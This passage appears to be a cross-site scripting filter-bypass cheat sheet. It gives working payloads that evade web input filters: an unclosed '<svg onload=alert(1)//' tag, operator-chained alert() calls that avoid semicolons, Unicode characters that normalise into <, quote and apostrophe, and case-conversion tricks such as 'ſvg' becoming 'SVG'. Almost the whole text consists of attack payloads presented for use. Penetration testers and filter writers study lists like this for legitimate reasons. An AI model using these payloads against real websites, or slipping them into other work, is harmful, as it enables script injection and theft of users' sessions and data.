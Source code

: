 Bypass ">" using nothing #trololo (you don't need to close your tags)
```
<svg onload=alert(1)//
```

Bypass ';' using another character
```
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```

Bypass using Unicode
```
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
%EF%BC%9E becomes >
%EF%BC%9C becomes <
```

Bypass using Unicode converted to uppercase
```
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```
